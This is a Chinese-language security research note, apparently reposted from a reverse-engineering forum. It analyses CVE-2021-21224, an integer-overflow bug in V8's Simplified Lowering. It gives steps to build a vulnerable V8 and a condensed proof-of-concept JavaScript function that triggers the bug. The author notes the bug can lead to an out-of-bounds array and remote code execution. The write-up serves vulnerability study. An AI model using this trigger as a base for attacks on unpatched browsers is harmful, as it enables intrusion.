 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [bbs.pediy.com](https://bbs.pediy.com/thread-268770.htm)

> [原创]CVE-2021-21224 分析笔记

前言
==

[CVE-2021-21224](https://chromium-review.googlesource.com/c/v8/v8/+/2826114)/issue 1195777 是 [tr0y4 师傅](https://twitter.com/josexddd)在今年四月份提交的漏洞，此漏洞发生于`Simplified Lowering`阶段的`RepresentationChanger::GetWord32RepresentationFor`函数中，是一个平平无奇的整数溢出。但是和 [CVE-2020-15965](https://bugs.chromium.org/p/chromium/issues/detail?id=1126249)、[CVE-2020-16040](https://chromium-review.googlesource.com/c/v8/v8/+/2557498)、[CVE-2021-21220](https://chromium-review.googlesource.com/c/v8/v8/+/2820971) 相似的是，此漏洞同样可以通过`Array.prototype.shift()`方法来构造一个长度为`-1(0xFFFF_FFFF)`的数组，凭借这个强大的越界数组我们可以很轻松的实现`RCE`。

 

![](http://blog-0x2l.oss-cn-beijing.aliyuncs.com/img/image-20210729172551936.png)

环境搭建
====

![](http://blog-0x2l.oss-cn-beijing.aliyuncs.com/img/image-20210618114626256.png)  
根据`commit`来回退版本：

```
git reset --hard 720176a523544721973a8ceba89e9c7af9405963
gclient sync -D
python tools\dev\v8gen.py x64.debug
python tools\dev\gm.py x64.debug d8
python tools\dev\v8gen.py x64.release
python tools\dev\gm.py x64.release d8

```

漏洞分析
====

poc 分析
------

[回归测试](https://chromium-review.googlesource.com/c/v8/v8/+/2826114)里面给出的`poc`有点长，我稍微精简了一下，不过效果是一样的：

```
function foo(b) {
let x = -1;
if (b) x = 0xFFFF_FFFF;
 
return -1 < Math.max(0, x);
}
 
console.log(foo(true));
%PrepareFunctionForOptimization(foo);
console.log(foo(false));
%OptimizeFunctionOnNextCall(foo);
%SystemBreak();
console.log(foo(true));

```
